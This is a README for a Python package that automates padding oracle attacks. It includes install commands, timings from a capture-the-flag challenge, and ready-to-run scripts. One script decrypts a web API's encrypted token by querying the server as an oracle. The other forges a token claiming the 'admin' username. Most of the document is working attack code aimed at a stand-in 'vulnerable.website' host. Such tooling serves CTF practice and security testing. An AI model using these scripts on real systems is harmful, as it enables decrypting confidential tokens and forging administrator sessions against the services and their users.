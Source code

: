 # Padding Oracle Python Automation Script 

![python-package-badge](https://github.com/djosix/padding_oracle.py/actions/workflows/python-package.yml/badge.svg)

The padding_oracle.py is a highly efficient, threaded [padding oracle](https://en.wikipedia.org/wiki/Padding_oracle_attack) attack automation script, specifically developed for Python 3.

## Installation

You can install the package using either PyPI or directly from GitHub:

**Via PyPI:**
```shell
pip3 install -U padding_oracle
```

**Via GitHub:**
```shell
pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
```

## Performance Metrics

Performance of padding_oracle.py was evaluated using [0x09] Cathub Party from EDU-CTF:

| Number of Request Threads | Time Taken |
|-----------------|----------------|
| 1               | 17m 43s        |
| 4               | 5m 23s         |
| 16              | 1m 20s         |
| 64              | 56s            |

## How to Use

### Decryption

To illustrate the usage, consider an example of testing `https://vulnerable.website/api/?token=M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94%3D`:

```python
from padding_oracle import padding_oracle, base64_encode, base64_decode
import requests

sess = requests.Session() # use connection pool
url = 'https://vulnerable.website/api/'

def oracle(ciphertext: bytes):
    resp = sess.get(url, params={'token': base64_encode(ciphertext)})

    if 'failed' in resp.text:
        return False # e.g. token decryption failed
    elif 'success' in resp.text:
        return True
    else:
        raise RuntimeError('unexpected behavior')

ciphertext: bytes = base64_decode('M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94=')
# len(ciphertext) is 32
# possibly be "IV + cipher block" if block size is 16

assert len(ciphertext) % 16 == 0

plaintext = padding_oracle(
    ciphertext,
    block_size = 16,
    oracle = oracle,
    num_threads = 16,
)
```

### Encryption

To illustrate the usage, consider an example of forging a token for `https://vulnerable.website/api/?token=<.....>` :

```python
from padding_oracle import padding_oracle, base64_encode, base64_decode
import requests

sess = requests.Session() # use connection pool
url = 'https://vulnerable.website/api/'

def oracle(ciphertext: bytes):
    resp = sess.get(url, params={'token': base64_encode(ciphertext)})

    if 'failed' in resp.text:
        return False # e.g. token decryption failed
    elif 'success' in resp.text:
        return True
    else:
        raise RuntimeError('unexpected behavior')

payload: bytes =b"{'username':'admin'}"

ciphertext = padding_oracle(
    payload,
    block_size = 16,
    oracle = oracle,
    num_threads = 16,
    mode = 'encrypt'
)
```

In addition, the package provides PHP-like encoding/decoding functions:

```python
from padding_oracle.encoding import (
    urlencode,
    urldecode,
    base64_encode,
    base64_decode,
)
```

## License

Padding Oracle Python Automation Script is distributed under the terms of the MIT license.

<!-- PiuPiuPiu -->

